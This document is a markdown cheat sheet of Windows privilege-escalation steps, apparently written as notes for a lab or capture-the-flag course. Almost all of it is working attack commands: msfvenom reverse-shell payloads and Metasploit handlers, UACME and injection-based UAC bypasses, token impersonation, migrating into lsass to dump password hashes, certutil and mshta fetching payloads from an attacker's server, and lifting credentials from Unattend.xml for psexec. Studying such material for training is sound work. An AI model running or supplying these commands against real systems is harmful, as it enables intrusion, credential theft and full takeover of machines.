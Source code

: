 # UAC Bypass - UACME

**Description**: UACME is a post-exploitation tool that bypasses UAC by abusing trusted Windows components, allowing code execution with elevated privileges. It requires local admin rights.

1) Set up the listener

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_local_IP> LPORT=<local_port> -f exe > 'backdoor.exe'
# We need to setup our multi handler to receive the connection once the payload is executed on the target
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT> # The same configured above
exploit
```

2) Transfer Akagi 64 over to the target system

```shell
# Back to the Meterpreter session (exit command from shell session)
pwd 
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe

shell
# If we want to execute backdoor.exe with administrative privileges we need to use method 23
# Note: Please provide the full path of the backdoor executable
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
# Once we execute the above command we would expect a meterpreter session
# We have successfully gained high privilege access
# We can dump the user hashes
pgrep lsass.exe
migrate <process_ID>
hashdump

# Check now
sysinfo
getid
getprivs # Now we have elevated privileges even though we have access to the main user
```

<br>

# UAC Bypass - Memory Injection (Metasploit)

```shell
use exploit/windows/local/bypassuac_injection
set SESSION 1
set TARGET 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
# Please note the explorer.exe arch is x64 bit, so later when we perform UAC bypass, we have to use x64 based meterpreter payload.
getsystem
getuid

ps -S lsass.exe
migrate <process_ID>

hashdump
```

<br>

# Impersonate

**Description**: Impersonation in Windows lets an attacker adopt another user's security context to act on their behalf. Tools like Incognito allow token impersonation for privilege escalation or lateral movement.
The `getprivs` command lists all privileges assigned to the current user. Key privileges like `SeImpersonatePrivilege` can enable privilege escalation.

```shell
getprivs
# SeImpersonatePrivilege. This means that we can use this Meterpreter session to impersonate other available access tokens.
```

**Incognito** is a post-exploitation tool for token manipulation, enabling attackers to list, steal, and impersonate high-privilege user tokens.

```shell
load incognito 
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
getprivs

pgrep explorer
migrate <process_number>
```

<br>

# Searching For Password in Windows Configuration Files

Unattended setup files like Unattend.xml or Autounattend.xml may contain plaintext credentials, which attackers can use for legitimate Windows authentication.
- C:\Windows\Panther\Unattend.xml
- C:\ Windows\Panther\Autounattend.xml

```shell
# This payload will establish a reverse connection from the target machine back to the attacker's machine
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local_IP> LPORT=<port_number> -f exe > payload.exe

# Set up a simple HTTP server to host the payload. This allows the target system to download the payload from your machine
python -m SimpleHTTPServer 80

# Use certutil to download the payload from the attacker's HTTP server
certutil -urlcache -f http://<kali_IP>/payload.exe payload.exe

# Prepare the Metasploit multi-handler to receive the reverse connection. Stop the web server and set up Metasploit
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST <my_IP>
run  # Starts listening for incoming connections

# Once the target runs the payload, a Meterpreter session will open
sysinfo

# Search for sensitive configuration files on the target
search -f Unattend.xml  # This search might take some time depending on the system size

# Navigate to the directory where 'Unattend.xml' is usually stored and download the configuration file containing potential credentials
download unattend.xml

# Extract and analyze potential plaintext credentials. View the contents of the file to locate sensitive information such as AutoLogon passwords.
cat unattend.xml
# Paste the Base64-encoded password found in the file into a new text file for decoding.
vim password.txt
# Decode the password from Base64 format to reveal the plaintext credentials.
base64 -d password.txt <optional_output_file>

# Validate the extracted credentials using PsExec. If the password hasn't been changed since installation, you can attempt authentication.
# Use Impacket's PsExec tool to execute commands remotely on the compromised machine.
psexec.py Administrator@<target_IP>
<password>  # Enter the decoded password.

# Verify if you successfully gained administrative access.
whoami  # Should return "NT AUTHORITY\SYSTEM" if successful.
```

<br>

# PowerUp

PowerUp.ps1 is a PowerShell script used to identify privilege escalation opportunities caused by Windows misconfigurations. It is part of the PowerSploit post-exploitation framework.

```shell
# Target Machine
cd .\Desktop\PowerSploit\Privesc\ # In this case PowerUp was provided
ls

# Import PowerUp.ps1 script and Invoke-PrivescAudit function
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck" # PowerShell execution policy bypass
# We can notice the Unattend.xml file present on the system
# The file may contain encoded or plain-text credentials and other sensitive information
cat C:\Windows\Panther\Unattend.xml

# Decoding administrator password using Powershell
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password

# We are running a command prompt as an administrator user using discovered credentials
runas.exe /user:administrator cmd # Enter the password, e.g. Admin@123
whoami
# We are running cmd.exe as an administrator
```

**Kali Machine**

```shell
# Running the hta_server module to gain the meterpreter shell
msfconsole -q
use exploit/windows/misc/hta_server
exploit
```

**Target Machine**

```shell
# Copy the generated payload i.e “http://10.10.31.2:8080/Bn75U0NL8ONS.hta” and run it on cmd.exe with mshta command to gain the meterpreter shell
mshta.exe http://10.10.31.2:8080/Bn75U0NL8ONS.hta

# We can expect a meterpreter shell.
# Read the flag
sessions -i 1
cd C:\\Users\\Administrator\\Desktop
dir
cat flag.txt
```

<br>

# SeImpersonatePrivilege

```shell
getsystem
# We can use getsystem to elevate the privileges because if SeImpersonatePrivilege is present, getsystem is likely to succeed using Named Pipe Impersonation.
```

<br>

# Remove from Access Control List (ACL)

```shell
# After gained access to the system
# Let’s try to navigate to the flag directory, but we don’t have the necessary access permissions.

# Let’s check the permissions using the command:
icacls flag

# So, as we can see, it has a deny permission for NT AUTHORITY\SYSTEM . Let's remove this restriction by using the command:
icacls flag /remove:d "NT AUTHORITY\SYSTEM"

cd flag
```
